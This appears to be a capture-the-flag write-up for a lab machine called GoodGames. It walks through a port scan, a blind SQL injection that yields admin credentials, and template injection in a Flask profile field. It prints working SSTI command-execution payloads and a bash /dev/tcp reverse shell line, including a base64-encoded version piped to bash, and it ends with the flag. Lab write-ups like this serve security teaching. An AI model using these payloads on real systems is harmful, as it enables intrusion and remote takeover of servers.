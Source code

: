 Nmap
```
└─$ nmap -sCV -p- 10.129.226.138                                                                                                                                                                                                    
Nmap scan report for 10.129.226.138 
Host is up (0.019s latency). 
Not shown: 65534 closed ports 
PORT   STATE SERVICE  VERSION 
80/tcp open  ssl/http Werkzeug/2.0.2 Python/3.9.2 
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2 
|_http-title: GoodGames | Community and Store 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 441.90 second
```
Time based blind sql injection in sign in page

![image](https://user-images.githubusercontent.com/87831546/142666137-ceea7690-cae8-4822-bc26-9b876198f1cf.png)

Dump the users table and we find admin credentials
```
admin@goodgames.htb
superadministrator
```

Logging into admin account and clicking on the settings feature we find subdomain:
```
internal-administration
```
![image](https://user-images.githubusercontent.com/87831546/142666394-11ee96c4-64db-474f-84a0-b04c1596f3c0.png)

Add to /etc/hosts

![image](https://user-images.githubusercontent.com/87831546/142666449-b32e99e2-1e05-436b-80a5-0687144c6b03.png)

Login with 
```
admin@goodgames.htb
superadministrator
```
![image](https://user-images.githubusercontent.com/87831546/142666482-c888bc72-307e-45ac-a17e-272420a7c995.png)

Flask application and SSTI in the Full Name field
![image](https://user-images.githubusercontent.com/87831546/142666543-8ccb3f45-0888-4244-a549-2cfcd97ec2a0.png)

Command execution throuhg SSTI:
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
```
Get reverse shell by base64 encoding bash reverse shell then piping to base64 decode and then piped to bash
```
bash -i >& /dev/tcp/10.10.14.42/4242 0>&1
```
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40Mi8xMjM0IDA+JjE= | base64 -d | bash').read() }}
```
```
HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}
````
